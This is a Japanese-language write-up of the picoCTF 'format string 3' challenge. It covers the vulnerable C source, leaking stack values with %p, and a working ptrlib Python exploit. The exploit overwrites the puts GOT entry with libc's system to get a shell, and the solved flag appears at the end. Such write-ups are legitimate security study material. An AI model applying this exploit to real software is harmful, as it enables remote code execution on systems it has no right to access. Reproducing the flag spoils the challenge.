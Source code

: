 # format string 3:Binary Exploitation:300pts
This program doesn't contain a win function. How can you win?  
Download the binary [here](format-string-3).  
Download the source [here](format-string-3.c).  
Download libc [here](libc.so.6), download the interpreter [here](ld-linux-x86-64.so.2). Run the binary with these two files present in the same directory.  
Connect with the challenge instance here:  
`nc rhea.picoctf.net 61616`  

Hints  
Is there any way to change what a function points to?  

# Solution
各種サーバ内で動いているバイナリ、ソースと接続先が渡される。  
```bash
$ nc rhea.picoctf.net 61616
Howdy gamers!
Okay I'll be nice. Here's the address of setvbuf in libc: 0x7f51e40233f0
satoki,%p
satoki,0x7f51e4181963
/bin/sh
```
接続すると`setvbuf`のlibcアドレスがなぜか渡され、入力をエコーバックし、最後に`/bin/sh`と表示される。  
もちろんfsbはあるようだ。  
ソースは以下の通りであった。  
```c
#include <stdio.h>

#define MAX_STRINGS 32

char *normal_string = "/bin/sh";

void setup() {
	setvbuf(stdin, NULL, _IONBF, 0);
	setvbuf(stdout, NULL, _IONBF, 0);
	setvbuf(stderr, NULL, _IONBF, 0);
}

void hello() {
	puts("Howdy gamers!");
	printf("Okay I'll be nice. Here's the address of setvbuf in libc: %p\n", &setvbuf);
}

int main() {
	char *all_strings[MAX_STRINGS] = {NULL};
	char buf[1024] = {'\0'};

	setup();
	hello();	

	fgets(buf, 1024, stdin);	
	printf(buf);

	puts(normal_string);

	return 0;
}
```
最後の`/bin/sh`の正体は`puts`のようだ。  
libcのリーク、この謎機能、`hello`関数から考えてもfsbで`puts`のgotを書き換えて`system`にする問題のようだ。  
```bash
$ checksec --file=./format-string-3
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      Symbols         FORTIFY Fortified       Fortifiable     FILE
Partial RELRO   Canary found      NX disabled   No PIE          No RPATH   RW-RUNPATH   44 Symbols        No    0               2               ./format-string-3
```
やはり、Partial RELROである。  
[format string 2](../format_string_2)と同じくptrlibのfsb機能を使う。  
```bash
$ nc rhea.picoctf.net 61616
Howdy gamers!
Okay I'll be nice. Here's the address of setvbuf in libc: 0x7f8ceecf83f0
%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,
0x7f8ceee56963,0xfbad208b,0x7ffccc8dd4f0,0x1,(nil),(nil),(nil),(nil),(nil),(nil),(nil),(nil),(nil),(nil),(nil),(nil),(nil),(nil),(nil),(nil),(nil),(nil),(nil),(nil),(nil),(nil),(nil),(nil),(nil),(nil),(nil),(nil),(nil),(nil),(nil),(nil),(nil),0x70252c70252c7025,0x252c70252c70252c,0x2c70252c70252c70,0x70252c70252c7025,0x252c70252c70252c,0x2c70252c70252c70,0x70252c70252c7025,0x252c70252c70252c,0x2c70252c70252c70,0x70252c70252c7025,0x252c70252c70252c,0x2c70252c70252c70,0x70252c70252c7025,
/bin/sh
```
38番目を指定する。  
```python
from ptrlib import *

libc = ELF("./libc.so.6")
elf = ELF("./format-string-3")
# sock = Process("./format-string-3")
sock = Socket("nc rhea.picoctf.net 61616")

sock.recvuntil("libc: ")
leak = int(sock.recvline(), 16)
libc.base = leak - libc.symbol("setvbuf")

payload = fsb(38, {elf.got("puts"): libc.symbol("system")}, bits=64)
sock.sendline(payload)

sock.sh()
```
実行する。  
```bash
$ python fsb3.py
[+] __init__: Successfully connected to rhea.picoctf.net:61616
[+] base: New base address: 0x7fa99c832000
~~~
[ptrlib]$ ls
[ptrlib]$ Makefile
artifacts.tar.gz
flag.txt
format-string-3
format-string-3.c
ld-linux-x86-64.so.2
libc.so.6
metadata.json
profile
cat flag.txt
[ptrlib]$ picoCTF{G07_G07?_92325514}
```
シェルが取れるのでflag.txtを読むとflagが書かれていた。  

## picoCTF{G07_G07?_92325514}